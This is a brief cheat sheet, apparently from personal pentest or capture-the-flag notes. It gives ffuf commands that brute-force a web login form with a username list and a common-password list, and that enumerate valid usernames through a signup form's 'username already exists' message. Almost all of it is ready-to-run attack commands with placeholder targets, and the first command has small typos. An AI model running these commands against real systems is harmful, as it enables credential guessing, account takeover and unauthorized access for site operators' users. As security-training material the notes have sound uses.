 <h3>ffuf bruteforce</h3>
`ffuf-w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u <link/to/login/page>-fc200`

<h3>ffuf user enum</h3>
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d  "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <url/to/signup/form> -mr "username already exists"`
OR
`ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d  "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u <url/to/signup/form> -mr "username already exists" -t 200 -s`
